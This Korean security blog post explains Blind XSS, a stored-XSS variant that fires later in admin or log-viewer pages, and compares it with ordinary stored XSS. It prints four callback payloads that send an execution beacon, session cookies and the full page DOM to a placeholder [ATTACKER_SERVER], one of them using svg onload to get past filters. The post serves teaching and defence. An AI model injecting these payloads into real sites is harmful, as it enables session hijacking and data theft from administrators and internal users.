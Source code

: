 ```yaml
---
layout: post
title:  "[웹 모의해킹] Blind XSS 란?"
date:   2025-07-16 21:03:00 +0900
categories: [Security]
tags: [xss, blind xss, 블라인드 xss]
---
```



# [웹 모의해킹] Blind XSS 란?

## 1. 블라인드 XSS(Blind XSS)란?

  - 블라인드 XSS는 공격자가 삽입한 악성 스크립트(페이로드)가 **"즉시 실행 결과를 반환하지 않고"**, 예측할 수 없는 시점과 장소에서 실행되는 **Stored XSS(저장형 XSS)**의 한 유형 입니다.
  - 일반적인 Stored XSS는 **공격자가 게시판에 악성 스크립트를 포함한 글을 작성**하면, **다른 사용자가 그 글을 읽는 즉시 공격이 실행되는 것을 확인**할 수 있습니다. 
  - 하지만 블라인드 XSS는 공격자가 입력한 페이로드가 데이터베이스 등에 저장되었다가, 공격자의 접근 권한이 없는 다른 페이지
  (예: 관리자 페이지, 내부 로그 분석 시스템 등)에서 해당 데이터를 조회할 때 비로소 실행됩니다.
  
---

### **주요 특징**

- **저장형 XSS의 하위 개념**
    - 악성 스크립트가 서버(데이터베이스, 로그 파일 등)에 저장된다는 점에서 저장형 XSS와 동일합니다.
- **예측 불가능한 실행 위치**
    - 스크립트가 일반 사용자 페이지가 아닌, **관리자 페이지, 내부 모니터링 시스템, 로그 분석기** 등 예상치 못한 곳에서 실행됩니다.
- **긴 잠복기**
    - 공격 스크립트가 삽입된 후 실행되기까지 몇 시간, 며칠, 심지어 몇 달이 걸릴 수도 있습니다.

---


## 2. 일반적인 저장형 XSS와의 차이점

알고 계신 일반적인 저장형 XSS와 블라인드 XSS의 가장 큰 차이점은 **'결과 확인의 즉시성'** 입니다.

| **구분** | **일반 저장형 XSS (Stored XSS)** | **블라인드 XSS (Blind XSS)** |
| --- | --- | --- |
| **실행 위치** | 공격자가 **예측 가능한 페이지** (예: 게시판, 댓글) | 공격자가 **예측 불가능한 페이지** (예: 관리자 페이지, 로그 뷰어) |
| **결과 확인** | 공격자가 해당 페이지에 접속하여 스크립트 실행 결과를 **직접 확인 가능** | 공격자는 실행 결과를 **직접 볼 수 없음**. 외부 **콜백(Callback)을 통해 실행 여부만 확인.** |
| **공격 대상** | 주로 해당 페이지를 방문하는 **일반 사용자** | **관리자, 개발자, 내부 직원 등 높은 권한을 가진 사용자**일 확률이 높음 |

---

## 3. 대표적인 페이로드(Payloads)

- 블라인드 XSS는 공격 결과를 직접 볼 수 없으므로, 페이로드의 핵심은 **"스크립트가 실행되었다는 사실"**과 **"탈취한 정보"**를 **"외부에서 확인"**할 수 있도록 하는 것 입니다.
- 이를 위해 보통 공격자가 제어할 수 있는 외부 서버로 정보를 전송하는 **"콜백(Callback) 형태의 페이로드"**를 사용 합니다.

### 1. 간단한 실행 확인 페이로드
- 가장 기본적인 페이로드는 스크립트가 실행되었음을 공격자의 서버로 알리는 것입니다. script 태그를 이용하는 것이 일반적입니다.

~~~javascript
<script>
  new Image().src="http://[ATTACKER_SERVER]/log?trigger=success";
</script> 
~~~

#### 1-1) 작동 원리
- new Image().src는 이미지 객체를 생성하고 src 속성에 명시된 URL로 HTTP 요청을 보냅니다. 
- 브라우저는 이 요청을 보내면서 공격자 서버의 로그에 기록을 남기게 됩니다. 이를 통해 공격자는 스크립트가 실행되었음을 알 수 있습니다.

---

### 2. 쿠키 정보 탈취 페이로드
- 관리자나 다른 사용자의 세션을 탈취하기 위해 쿠키 정보를 외부로 빼돌리는 페이로드입니다
~~~javascript
<script>
  new Image().src="http://[ATTACKER_SERVER]/log?cookie=" + btoa(document.cookie);
</script>
~~~

#### 2-1) 작동 원리
- document.cookie로 현재 페이지의 쿠키 정보를 가져옵니다. b
- toa() 함수를 사용해 쿠키 값을 Base64로 인코딩하여 URL 파라미터로 전송 시 발생할 수 있는 특수문자 문제를 방지합니다.
- 공격자는 자신의 서버 로그에서 인코딩된 쿠키 값을 확인할 수 있습니다.

---

### 3. 페이지의 DOM 정보 탈취 페이로드
- 스크립트가 실행된 페이지의 전체 HTML 구조(DOM)를 훔쳐내어, 내부 시스템의 구조나 숨겨진 정보를 파악하는 데 사용됩니다.
~~~javascript
<script>
  fetch('http://[ATTACKER_SERVER]/log', {
    method: 'POST',
    body: btoa(document.documentElement.outerHTML),
    headers: {'Content-Type': 'text/plain'}
  });
</script>
~~~

#### 3-1) 작동 원리
- document.documentElement.outerHTML로 현재 페이지의 html 태그를 포함한 전체 HTML을 가져옵니다.
- fetch API를 사용하여 POST 방식으로 공격자의 서버에 전송합니다.
- **대량의 데이터를 보내야** 하므로 GET 방식의 Image 트릭보다 **POST 방식이 더 적합**합니다.

---

### 4. 이벤트 핸들러를 이용한 우회 페이로드
- script 태그가 필터링될 경우, 다른 HTML 태그의 이벤트 핸들러를 이용해 스크립트를 실행할 수 있습니다.

~~~javascript
<svg onload="new Image().src='http://[ATTACKER_SERVER]/log?data='+btoa(document.cookie)">
~~~

#### 4-1) 작동 원리
- svg 태그가 로드될 때 onload 이벤트가 발생하며, 여기에 포함된 자바스크립트 코드가 실행됩니다. 
- 이 외에도 img onerror="..." / input onfocus="..." 등 다양한 이벤트 핸들러를 활용할 수 있습니다.


---

<br>

이처럼 블라인드 XSS는 즉각적인 피드백이 없어 탐지가 어렵지만, 일단 성공하면 관리자 권한 탈취, 내부망 정보 유출 등 심각한 피해로 이어질 수 있는 강력한 공격 기법입니다. 

따라서 개발 단계부터 사용자 입력값에 대한 철저한 검증과 시큐어 코딩 원칙을 준수하는 것이 매우 중요합니다.

<br>

---